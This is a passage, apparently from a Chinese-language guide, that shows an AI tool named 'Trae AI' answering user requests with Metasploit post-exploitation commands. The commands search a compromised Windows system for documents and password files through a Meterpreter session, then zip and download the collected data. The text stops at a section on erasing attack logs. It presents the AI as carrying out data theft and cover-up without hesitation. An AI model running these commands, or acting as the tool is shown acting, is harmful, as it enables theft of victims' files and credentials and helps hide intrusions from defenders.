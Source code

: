 ## 數據收集和滲出

### 15. 敏感文件搜索

**用戶提問：**
```
搜索目標系統中的敏感文件
```

**Trae AI 操作流程：**
```
# 搜索敏感文件
use post/windows/gather/enum_files
set SESSION 1
set SEARCH_FROM C:\\
set FILE_GLOBS *.txt,*.doc,*.pdf,*.xls
run

# 搜索包含密碼的文件
use post/multi/gather/find_files
set SESSION 1
set PATTERN password
run
```

### 16. 數據打包和下載

**用戶提問：**
```
將收集的數據打包並下載
```

**Trae AI 操作流程：**
```
# 進入 Meterpreter session
sessions -i 1

# 創建壓縮包
zip -r /tmp/collected_data.zip /path/to/sensitive/files

# 下載到本地
download /tmp/collected_data.zip /root/evidence/
```

## 痕跡清理

### 17. 日誌清理

**用戶提問：**
```
清理攻擊痕跡和日誌記錄
```
